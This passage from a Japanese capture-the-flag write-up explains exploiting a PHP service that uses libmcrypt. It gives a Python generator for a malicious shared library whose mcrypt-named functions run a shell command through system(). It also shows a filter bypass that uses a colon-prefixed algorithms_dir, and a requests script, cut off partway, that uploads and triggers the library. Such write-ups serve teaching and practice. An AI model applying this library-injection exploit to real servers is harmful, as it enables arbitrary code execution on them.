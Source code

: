 ```python
CMD = "./flag_dispenser > /var/www/messages/poyopoyo.txt"

functions = '''void _mcrypt_set_key(int *a, int *b, int c)
void _mcrypt_encrypt(int *a, int *b)
void _mcrypt_decrypt(int *a, int *b)
void _mcrypt_get_size()
void _mcrypt_get_block_size()
void _is_block_algorithm()
void _mcrypt_get_key_size()
void _mcrypt_get_algo_iv_size()
void _mcrypt_get_supported_key_sizes(int *a)
void _mcrypt_get_algorithms_name()
void _mcrypt_self_test()
void _mcrypt_algorithm_version()'''.splitlines()
source = '''
// gcc -shared -fPIC evil.c -o evil.so
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
'''

for function in functions:
  source += f'''
{function} {% raw %}{{{% endraw %}
  const char *cmd = "{CMD}";
  system(cmd);
}}
  '''

with open('evil.c', 'w') as f:
  f.write(source)
```

これを実行してから `gcc -shared -fPIC evil.c -o evil.so` でコンパイルし、拡張子は `so`、暗号化アルゴリズムはでたらめなものにして (これによって `stream_filter_append` が失敗するので、ファイルが暗号化されずにそのまま書き込まれる) アップロードします。

あとは暗号化アルゴリズムに `md5($_SERVER['REMOTE_ADDR'])` を、`algorithms_dir` に `/var/www/messages` を与えてから適当な文字列を暗号化するだけ…かと思いきや、ここでちょっとした罠があります。`index.php` の最初の方で `$_POST` が `nohack` という関数によってフィルターされており、これによって文字列の先頭にある `/` が `XXX` に置換されてしまうのをなんとかする必要があります。

先程 libmcrypt のソースコードを読んだ際に共有ライブラリの検索には `lt_dlsetsearchpath` と `lt_dlopenext` が使われており、これらはコロンで区切ることで複数のディレクトリを検索対象にすることもわかっていました。ですから、`algorithms_dir` には `:/var/www/messages` を与えれば `nohack` の置換を回避した上で `/var/www/messages` を与えたときと同じ結果が得られるはずです。

自動化するスクリプトを書きましょう。

```python
import requests

req = requests.post('http://(省略)/', data={
  'file': open('evil.so', 'rb').read(),
  'filetype': 'so',
  'key': 'a',
  'algo': 'hoge' # data will not be encrypted
})
print(req.content)
print(req.headers)

req = requests.post('http://(省略)/', data={
  'file': 'test',
  'filetype': 'txt',
  'key': 'a',
  'algo': '(MD5 hash of your IP address)',
  'algorithms_dir': ':/var/www/messages'
```